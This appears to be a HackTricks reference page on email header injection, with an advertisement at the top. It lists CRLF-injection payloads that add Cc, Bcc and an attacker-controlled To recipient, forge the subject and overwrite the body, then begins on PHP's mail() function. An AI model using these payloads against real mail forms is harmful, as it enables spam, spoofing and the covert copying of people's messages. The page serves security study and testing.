 # Email Injections

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm\_source=hacktricks\&utm\_medium=text\&utm\_campaign=ppc\&utm\_content=email-injections) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=email-injections" %}





## Inject in sent e-mail

### Inject Cc and Bcc after sender argument

```
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```

The message will be sent to the recipient and recipient1 accounts.

### Inject argument

```
From:sender@domain.com%0ATo:attacker@domain.com
```

The message will be sent to the original recipient and the attacker account.

### Inject Subject argument

```
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```

The fake subject will be added to the original subject and in some cases will replace it. It depends on the mail service behavior.

### Change the body of the message

Inject a two-line feed, then write your message to change the body of the message.

```
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```

### PHP mail() function exploitation

```bash
# The function has the following definition:

php --rf mail

Function [ <internal:standard> function mail ] {
  - Parameters [5] {
    Parameter #0 [ <required> $to ]
    Parameter #1 [ <required> $subject ]
    Parameter #2 [ <required> $message ]
    Parameter #3 [ <optional> $additional_headers ]
    Parameter #4 [ <optional> $additional_parameters ]
  }
}
```